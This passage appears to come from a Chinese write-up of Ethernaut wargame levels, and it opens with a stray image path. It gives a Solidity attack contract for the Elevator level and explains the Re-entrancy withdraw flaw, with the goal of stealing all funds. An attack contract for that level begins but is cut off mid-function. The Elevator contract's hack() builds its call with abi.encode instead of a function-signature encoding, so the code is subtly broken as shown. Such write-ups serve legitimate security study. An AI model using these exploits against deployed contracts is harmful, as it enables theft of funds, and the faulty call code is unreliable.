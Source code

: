 - 告诫我们不要轻易地把一些重要权限分配给msg.sender

### 攻略

- 自己写个攻略合约

  ```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.6.0;
  /*
  我明白问题了，当我们自己新建Building合约时，我们需要操作两次，第一次让isLastFloor的返回值为false，从而方便我们进入if判断；第二次我们要让isLastFloor返回值为true，从而更改top的值。
  */
  contract Building{
    bool public flag = false;
    address public instance = 0x070b0f062e4EF0a495832a3173861CFb34A27731;
    function isLastFloor(uint) external returns(bool){
      //如何让flag值更改两次呢？
      if(flag == false){
        flag = true;
        return false ;
      }
        return true;
    }
    function hack() public{
    instance.call(abi.encode("goTo(uint256)",1));
    }
  }
  
  ```

- 部署该合约，传入instance地址，调用goTo

- over



## Re-entrancy

### 要求

- 偷光合约中的所有资产

### 漏洞

- withdraw函数里使用的转账方式是**call**，就可能被其他人转走调所有的资产
- 并且事务的确定是先将钱从账户A转账到另一个账户B中，再在账户A中扣处相应的资金。（即：先花钱，后记账的模式)

### 攻略

1. 创建一个新的合约，代码如下：

   ```solidity
   pragma solidity ^0.8.0;
   
   interface ReEntrance {
       function withdraw(uint256 _amount) external;
   }
   
   contract attack {
       address Instance;
   
       constructor(address _Instance) {
           Instance = _Instance;
       }
   
       function hack(uint256 _amount) public {
   ```